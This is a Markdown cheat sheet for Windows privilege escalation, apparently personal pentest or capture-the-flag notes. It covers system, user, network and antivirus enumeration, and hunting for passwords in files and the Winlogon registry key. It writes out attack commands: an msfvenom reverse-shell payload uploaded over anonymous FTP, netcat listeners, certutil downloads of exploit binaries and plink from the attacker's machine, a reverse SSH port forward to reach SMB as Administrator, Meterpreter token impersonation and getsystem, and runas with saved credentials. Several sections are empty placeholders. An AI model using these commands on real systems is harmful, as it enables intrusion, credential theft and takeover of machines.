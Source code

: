 # Windows

## Manual Enumeration

### System

```powershell
systeminfo  # host name, OS Name, OS version, etc…
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
wmic [command]
```

### User

```powershell
whoami
whoami /priv
whoami /groups
net user  # show users that are on the machine
net user [user]  # get information about a specific user
net localgroup administrator  # get users that belong to the administrator group
```

### Network

```powershell
ipconfig
ipconfig /all
arp -a
route print
netstat -ano
```

### Password Hunting

```powershell
findstr /si password *.txt *.ini *.config *xml  # searches from the directory for the word password in all the specified files
dir secret.doc /s /p  # searches recursively for a file called secret.doc
```

### A/V and Firewall Enumeration

```powershell
sc query windefend
sc queryex type= service
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
```

## Automated Enumeration

### Executables

* winPEAS
* seatbelt.exe
* Watson.exe
* SharpUp.exe

### PowerShell

* Sherlock.ps1
* PowerUp.ps1
* jaws-enum.ps1

### Other

* windows-exploit-suggester.py
* Exploit Suggester (Metasploit)

## Escalation Path Techniques

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

### Kernel Exploits

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

#### Metasploit

```bash
# From a Meterpreter shell
meterpreter > run post/multi/recon/local_exploit_suggester
# Ex: ms10_015 kitrap0d
msf > use exploit/windows/local/ms10_015_kitrap0d
```

#### Manual

```bash
# Foothold
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > manual.aspx
ftp <IP>  # Anonymous login
put manual.aspx
nc -lvnp 4444
http://<IP>/manual.aspx
# Exploit - after running windows-exploit-suggester
# Can Google for exploits already compiled
certutil -f http://<IP>/MS10-059.exe ms.exe  # From target
nc -lvnp 5555  # From Kali
ms.exe <Kali-IP> 5555  # From target
```

### Service Exploits

### Registry Exploits

#### Autoruns

```powershell
# Enumeration
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe

C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
# Looking for FILE_ALL_ACCESS for Everyone

powershell -ep bypass
. .\PowerIp.ps1
Invoke-AllChecks
# Exploitation

```

#### AlwaysInstallElevated

```powershell
```

#### regsvc ACL

```powershell
```

### Passwords

```powershell
# Search types of files for the word password
findstr /si password *.txt (*.xml, *.ini)
# Check for file shares only listening locally i.e. SMB (port forward)
netstat -ano  
# Searching registry
reg query HKLM /f password /t REG_SZ /s  # Look for plaintext passwords in output
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # find username and default passowrd
# Could be password reuse to test on Administrator or other account
```

#### Port Forward

```bash
# From Kali
# edit sshd_config, by uncommenting PermitRootLogin yes
service ssh restart
service ssh start
# From target
# Download Plink to the target
certutil -urlcache -f http://<IP>/plink.exe plink.exe
plink.exe -l root -pw <password> -R 445:127.0.0.1:445 <Kali-IP>
# Will be brought to root login within same shell
netstat -ano | grep 445  # Verify listening
winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"
```

### Scheduled Tasks

### Insecure GUI Apps

### Startup Apps

### Installed Apps

```
```

### Token Impersonation

```powershell
whoami /priv
meterpreter > getprivs
# Look for SeImpersonatePrivilege as Enabled
# Can use windows-exploit-suggester to find potato attacks
```

### Potato Attacks

```powershell
meterpreter > run post/multi/recon/local_exploit_suggester
msf use exploit windows/local/ms16_065_reflection
meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
meterpreter > shell
```

#### Alternate Data Streams

```powershell
# Regular directory listing
dir
hm.txt
# Recursive directory listing identifying alternate data streams
dir /R
hm.txt
hm.txt:root.txt:$DATA
# Read alternate data stream
more < hm.txt:root.txt:$DATA
```

### Port Forwarding

```powershell
```

### WSL

Running Linux on top of Windows

```powershell
where /R c:\windows wsl.exe
/path/to/wsl.exe whoami
where /R c:\windows bash.exe
/path/to/bash.exe
whoami, hostname, uname -a
python -c "import pty;pty.spawn('/bin/bash')"  # Get a TTY shell
# General Linux enumeration (history, .bash_history, etc.)
# If credentials are found...
psexec.py
smbexec.py
wmiexec.py
```

### getsystem

```bash
meterpreter > getsystem
meterpreter > getsystem -h
```

### RunAs

```powershell
cmdkey /list  # Look for Current stored credentials
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\root.txt"

```

### DLL Hijacking

```powershell
```
